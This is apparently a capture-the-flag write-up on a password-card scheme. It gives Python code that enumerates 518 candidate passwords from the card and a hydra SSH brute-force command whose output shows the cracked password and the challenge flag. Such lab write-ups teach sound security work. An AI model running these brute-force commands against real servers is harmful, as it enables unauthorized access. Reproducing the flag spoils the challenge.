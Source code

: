 # Long secure password (3 points)

Hi, TCC-CSIRT analyst,

a new colleague came up with a progressive way of creating a memorable password
and would like to implement it as a new standard at TCC. Each user receives a
`TCC-CSIRT password card` and determines the password by choosing the starting
coordinate, direction, and number of characters. For skeptics about the
security of such a solution, he published the card with a challenge to log in
to his SSH server.

Verify if the card method has any weaknesses by logging into the given server.

* [Download the password card](long_secure_password.zip)
  (sha256 checksum: `9a35dc6284c8bde03118321b86476cf835a3b48a5fcf09ad6d64af22b9e555ca`)
* The server has domain name `password-card-rules.cypherfix.tcc` and the
  colleagues's username is futurethinker.

See you in the next incident!

## Hints

* The entropy is at first glance significantly lower than that of a randomly
  generated password.
* We know that the colleague's favorite number is `18`, so it can be assumed
  that the password has this length as well.

## Solution

After extracting a password card from the archive we can see that the arrows
indicate 8 possible directions. With this information we can write a piece of
code to extract all possible 18-character passwords from the card.

```python
CARD = [
    "SQUIRELL*JUDGE*NEWS*LESSON",
    "WORRY*UPDATE*SEAFOOD*CROSS",
    "CHAPTER*SPEEDBUMP*CHECKERS",
    "PHONE*HOPE*NOTEBOOK*ORANGE",
    "CARTOONS*CLEAN*TODAY*ENTER",
    "ZEBRA*PATH*VALUABLE*MARINE",
    "VOLUME*REDUCE*LETTUCE*GOAL",
    "BUFFALOS*THE*CATCH*SUPREME",
    "LONG*OCTOPUS*SEASON*SCHEME",
    "CARAVAN*TOBACCO*WORM*XENON",
    "PYPPYLIKE*WHATEVER*POPULAR",
    "SALAD*UNKNOWN*SQUATS*AUDIT",
    "HOUR*NEWBORN*TURN*WORKSHOP",
    "USEFUL*OFFSHORE*TOAST*BOOK",
    "COMPANY*FREQUENCY*NINETEEN",
    "AMOUNT*CREATE*HOUSE*FOREST",
    "BATTERY*GOLDEN*ROOT*WHEELS",
    "SHEEP*HOLIDAY*APPLE*LAWYER",
    "SUMMER*HORSE*WATER*SULPHUR",
]
PASS_LEN = 18
CARD_HEIGHT = len(CARD)
CARD_WIDTH = len(CARD[0])
passwords = set()


def add_pass(row, col, dRow, dCol):
    endRow = row + (PASS_LEN - 1) * dRow
    endCol = col + (PASS_LEN - 1) * dCol
    if endRow < 0 or endRow >= CARD_HEIGHT or endCol < 0 or endCol >= CARD_WIDTH:
        return
    pwd = ""
    for _ in range(PASS_LEN):
        pwd += CARD[row][col]
        row += dRow
        col += dCol
    passwords.add(pwd)


for row in range(CARD_HEIGHT):
    for col in range(CARD_WIDTH):
        add_pass(row, col, -1,  0)  # up
        add_pass(row, col, -1,  1)  # up-right
        add_pass(row, col,  0,  1)  # right
        add_pass(row, col,  1,  1)  # down-right
        add_pass(row, col,  1,  0)  # down
        add_pass(row, col,  1, -1)  # down-left
        add_pass(row, col,  0, -1)  # left
        add_pass(row, col, -1, -1)  # up-left

for p in passwords:
    print(p)
```

If we run this code and save the result in `passwords.txt` we end up with
518 potential password candidates.

In order to test which is the correct one, we can use e.g. hydra

```console
$ hydra -l futurethinker -P passwords.txt -t 4 ssh://password-card-rules.cypherfix.tcc
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-07 17:22:45
[DATA] max 4 tasks per 1 server, overall 4 tasks, 518 login tries (l:1/p:518), ~130 tries per task
[DATA] attacking ssh://password-card-rules.cypherfix.tcc:22/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 438 to do in 00:06h, 4 active
[22][ssh] host: password-card-rules.cypherfix.tcc   login: futurethinker   password: SAOPUNUKTPHCANEMFW
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-07 17:24:35
```

Now that we know the password, we can log in to SSH server to retrieve the flag.

```console
$ ssh futurethinker@password-card-rules.cypherfix.tcc
futurethinker@password-card-rules.cypherfix.tcc's password:
Nobody will ever read this message anyway, because the TCC password card is super secure. Even my lunch access-code is safe here: FLAG{uNZm-GGVK-JbxV-1DIx}
Connection to password-card-rules.cypherfix.tcc closed.
```
